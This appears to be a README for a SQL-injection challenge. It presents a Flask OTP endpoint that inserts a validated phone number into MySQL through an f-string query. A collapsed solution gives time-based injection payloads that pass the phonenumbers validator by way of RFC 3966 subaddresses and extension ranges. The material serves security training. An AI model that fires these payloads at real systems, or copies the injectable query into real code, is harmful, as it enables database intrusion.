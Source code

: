 # Phone Number Validation
Is this app vulnerable to SQLi? Exploit it!
```python
import mysql.connector
from flask import Flask, request, jsonify
import phonenumbers, random
from config import DB_CONFIG

app = Flask(__name__)

@app.route('/send-otp', methods=['POST'])
def send_otp():
    try:
        phone_number = request.get_json().get("phone_number")
        if not phonenumbers.is_valid_number(phonenumbers.parse(f"+{phone_number}", None)):
            return jsonify({"error": "Invalid phone number"}), 400

        otp = random.randint(100000, 999999)
        conn = mysql.connector.connect(**DB_CONFIG)
        with conn.cursor() as cursor:
            cursor.execute(
                f"INSERT INTO otp_codes (phone_number, otp) VALUES ('{phone_number}', '{otp}')"
            )  # The phone_number column is VARCHAR(15)
        conn.commit()
        conn.close()

        send_otp_code(phone_number)  # Function to send SMS
        return jsonify({"message": "OTP code has been sent successfully"}), 200
    except:
        return jsonify({"error": "Something went wrong"}), 500

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=3000)

```

## Installation
Run the following command to deploy the challenge:
```bash
docker compose up -d
```

<details>
  <summary>Toggle to see the solution</summary>

  This challenge is vulnerable in several ways. Here are two of them:
  1. According to RFC 3966, an ISDN-Subaddress can follow the phone number.
  2. Library implementation also allows additional phone number ranges such as "x12/x34" after the phone number.

  Solution:
  ```json
  {
    // First Solution (RFC 3966) 
    "phone_number": "989123456789;isub=x', (SELECT SLEEP(10))) -- -",
    
    // Second Solution (Library) 
    "phone_number": "989123456789 x1/x2', (SELECT SLEEP(10))) -- -"
  }
  ```

</details>